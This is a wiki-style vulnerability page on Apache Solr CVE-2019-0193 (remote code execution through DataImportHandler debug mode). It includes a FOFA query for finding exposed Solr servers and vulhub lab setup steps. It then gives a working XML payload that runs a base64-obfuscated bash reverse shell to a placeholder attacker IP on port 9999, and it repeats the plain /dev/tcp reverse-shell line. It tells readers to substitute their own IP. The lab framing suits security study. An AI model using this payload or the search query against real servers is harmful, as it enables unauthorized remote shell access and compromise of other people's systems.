 ```yaml
---
title: Apache Solr Debug-Mode Remote Execution Vulnerability CVE-2019-0193
---
```


# Apache Solr Debug-Mode Remote Execution Vulnerability CVE-2019-0193

## Vulnerability Description


## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## Environment construction
```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
Visit https://xxx.xxx.xxx.xxx:8983/solr/ It's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/6b8ee428-c68d-4517-8206-fb6eda9d4e5b.png)

## Login page

Click the test you just created to enter debugging

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/9e50ce8c-94b7-461c-95e9-17030e72623f.png)

Fill in the following POC code into Debug-Mode

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Note: Please replace the location of the base64 string in the code executed by POC and fill it in with your own IP address and encrypted base64.

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

Click EXecute to execute the code

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/7217d375-48e1-460e-bb1e-c1db123daff1.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/999fb5d8-a762-4957-a9b7-a6e66df216dd.png)